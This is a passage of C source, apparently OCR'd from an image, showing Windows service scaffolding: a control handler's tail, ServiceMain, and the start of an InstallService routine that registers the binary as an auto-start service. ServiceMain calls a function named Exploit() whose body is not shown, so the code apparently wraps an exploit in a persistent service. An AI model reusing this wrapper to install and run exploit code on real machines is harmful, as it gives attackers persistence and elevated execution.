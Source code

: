 ```c
            break;

        default:
            break;
    }
    SetServiceStatus( serviceStatusHandle, &serviceStatus );
}

void WINAPI ServiceMain( DWORD argc, TCHAR* argv[] ) {
    // initialise service status
    serviceStatus.dwServiceType = SERVICE_WIN32;
    serviceStatus.dwCurrentState = SERVICE_STOPPED;
    serviceStatus.dwControlsAccepted = 0;
    serviceStatus.dwWin32ExitCode = NO_ERROR;
    serviceStatus.dwServiceSpecificExitCode = NO_ERROR;
    serviceStatus.dwCheckPoint = 0;
    serviceStatus.dwWaitHint = 0;

    serviceStatusHandle = RegisterServiceCtrlHandler( serviceName, ServiceControlHandler );

    if ( serviceStatusHandle ) {
        // service is starting
        serviceStatus.dwCurrentState = SERVICE_START_PENDING;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );

        // do initialisation here
        stopServiceEvent = CreateEvent( 0, FALSE, FALSE, 0 );

        // running
        serviceStatus.dwControlsAccepted |= (SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
        serviceStatus.dwCurrentState = SERVICE_RUNNING;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );

        Exploit();
        WaitForSingleObject( stopServiceEvent, -1 );

        // service was stopped
        serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );

        // do cleanup here
        CloseHandle( stopServiceEvent );
        stopServiceEvent = 0;

        // service is now stopped
        serviceStatus.dwControlsAccepted &= ~(SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
        serviceStatus.dwCurrentState = SERVICE_STOPPED;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );
    }
}


void InstallService() {
    SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CREATE_SERVICE );

    if ( serviceControlManager ) {
        TCHAR path[ _MAX_PATH + 1 ];
        if ( GetModuleFileName( 0, path, sizeof(path)/sizeof(path[0]) ) > 0 ) {
            SC_HANDLE service = CreateService( serviceControlManager,
                            serviceName, serviceName,
                            SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
                            SERVICE_AUTO_START, SERVICE_ERROR_IGNORE, path,
                            0, 0, 0, 0, 0 );
```